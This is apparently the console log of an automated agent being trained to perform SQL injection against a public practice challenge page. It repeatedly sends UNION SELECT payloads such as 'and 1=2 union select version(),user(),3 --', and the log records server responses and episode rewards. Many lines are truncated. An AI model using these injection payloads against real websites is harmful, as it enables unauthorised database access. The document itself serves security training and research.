https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2018/1000000 [12:04:21<1216:48:46,  4.39s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server respons

  0%|          | 2019/1000000 [12:04:55<3645:51:16, 13.15s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2020/1000000 [12:04:56<2623:06:05,  9.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Se

  0%|          | 2021/1000000 [12:06:03<7384:21:43, 26.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--


  0%|          | 2022/1000000 [12:06:49<9055:27:38, 32.67s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2023/1000000 [12:06:50<6417:58:37, 23.15s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2024/1000000 [12:06:51<4576:22:33, 16.51s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2025/1000000 [12:06:52<3285:35:24, 11.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2026/1000000 [12:06:53<2361:39:04,  8.52s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3

  0%|          | 2027/1000000 [12:08:10<8037:52:37, 29.00s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2028/1000000 [12:08:11<5690:28:25, 20.53s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2029/1000000 [12:08:12<4068:40:48, 14.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.

  0%|          | 2030/1000000 [12:10:16<13192:40:57, 47.59s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2031/1000000 [12:10:17<9297:43:13, 33.54s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user

  0%|          | 2032/1000000 [12:11:11<11016:38:12, 39.74s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2033/1000000 [12:11:13<7864:45:54, 28.37s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2034/1000000 [12:11:13<5539:19:04, 19.98s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2035/1000000 [12:11:14<3957:12:30, 14.28s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2036/1000000 [12:11:15<2833:37:42, 10.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2037/1000000 [12:11:16<2062:35:18,  7.44s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 

  0%|          | 2038/1000000 [12:12:34<7931:00:52, 28.61s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2039/1000000 [12:12:35<5644:15:14, 20.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2040/1000000 [12:12:36<4044:45:04, 14.59s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3

  0%|          | 2041/1000000 [12:12:57<4546:48:27, 16.40s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2042/1000000 [12:12:58<3312:39:27, 11.95s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2043/1000000 [12:13:00<2486:23:44,  8.97s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2044/1000000 [12:13:01<1806:54:34,  6.52s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2045/1000000 [12:13:02<1341:43:56,  4.84s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2046/1000000 [12:13:03<1017:47:16,  3.67s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2047/1000000 [12:13:04<774:09:53,  2.79s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervis

  0%|          | 2048/1000000 [12:13:32<2887:51:41, 10.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 2049/1000000 [12:13:34<2174:44:41,  7.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2

  0%|          | 2050/1000000 [12:14:48<7705:10:00, 27.80s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2051/1000000 [12:14:49<5455:41:47, 19.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2052/1000000 [12:14:49<3849:20:59, 13.89s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2053/1000000 [12:14:50<2772:48:10, 10.00s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union 

  0%|          | 2054/1000000 [12:16:20<9391:39:23, 33.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2055/1000000 [12:16:21<6651:26:43, 23.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server re

  0%|          | 2056/1000000 [12:17:08<8596:05:49, 31.01s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2057/1000000 [12:17:09<6081:52:53, 21.94s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2058/1000000 [12:17:10<4318:37:37, 15.58s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3


  0%|          | 2059/1000000 [12:17:28<4546:03:18, 16.40s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2060/1000000 [12:17:29<3266:29:37, 11.78s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2061/1000000 [12:17:30<2349:27:37,  8.48s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2062/1000000 [12:17:31<1724:55:39,  6.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'uni

  0%|          | 2063/1000000 [12:18:17<5039:49:41, 18.18s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2064/1000000 [12:18:17<3588:30:21, 12.95s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2065/1000000 [12:18:18<2590:51:46,  9.35s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2066/1000000 [12:18:19<1897:40:41,  6.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2067/1000000 [12:18:21<1497:37:02,  5.40s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2068/1000000 [12:18:23<1191:08:20,  4.30s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2069/1000000 [12:18:24<897:53:08,  3.24s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
No

  0%|          | 2070/1000000 [12:18:41<2066:51:25,  7.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4--
Query with differenc number of column
Server response is 4
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 

  0%|          | 2071/1000000 [12:21:02<13168:08:14, 47.50s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1


  0%|          | 2072/1000000 [12:23:00<18999:34:00, 68.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2073/1000000 [12:23:01<13363:33:03, 48.21s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2074/1000000 [12:23:04<9609:59:45, 34.67s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of

  0%|          | 2075/1000000 [12:24:28<13783:54:11, 49.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 2076/1000000 [12:24:29<9709:51:01, 35.03s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 2077/1000000 [12:24:32<7013:35:09, 25.30s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc numbe

  0%|          | 2078/1000000 [12:24:56<6922:16:38, 24.97s/it]

